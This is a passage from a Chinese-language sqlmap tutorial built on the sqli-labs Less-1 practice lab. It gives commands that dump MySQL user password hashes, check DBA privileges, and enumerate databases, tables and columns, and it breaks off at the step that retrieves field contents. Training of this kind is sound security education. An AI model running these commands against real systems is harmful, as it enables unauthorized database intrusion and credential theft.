 sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --passwords  

\#查看数据库用户名的密码

有时候使用 --passwords 不能获取到密码，则可以试下

-D mysql -T user -C host,user,password --dump  

当MySQL< 5.7时

-D mysql -T user -C host,user,authentication_string --dump  

当MySQL>= 5.7时

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --current-user  

\#查看数据库当前的用户

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --is-dba   

\#判断当前用户是否有管理员权限

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --roles   

\#列出数据库所有管理员角色，仅适用于oracle数据库的时候

## 5.3.**案例**

### 5.3.1.**案例**sql-labs-less-1 测试注入

#### 5.3.1.1.**探测是否存在漏洞**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1

![img](https://s2.loli.net/2023/03/12/4yrQwWXBlMoVhtO.jpg) 

#### 5.3.1.2.**查询当前用户下的所有数据库**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -dbs

![img](https://s2.loli.net/2023/03/12/MeyFE8dcLWUZ9lG.jpg) 

#### 5.3.1.3.**获取数据库中的表**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -tables

 

![img](https://s2.loli.net/2023/03/12/KxQZvSiUM56oncO.jpg) 

#### 5.3.1.4.**获取表中的字段数**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -T users -columns

![image-20230312173342500](https://s2.loli.net/2023/03/12/AqJCFi5kLrlbIwD.png)

#### 5.3.1.5.**获取字段内容**
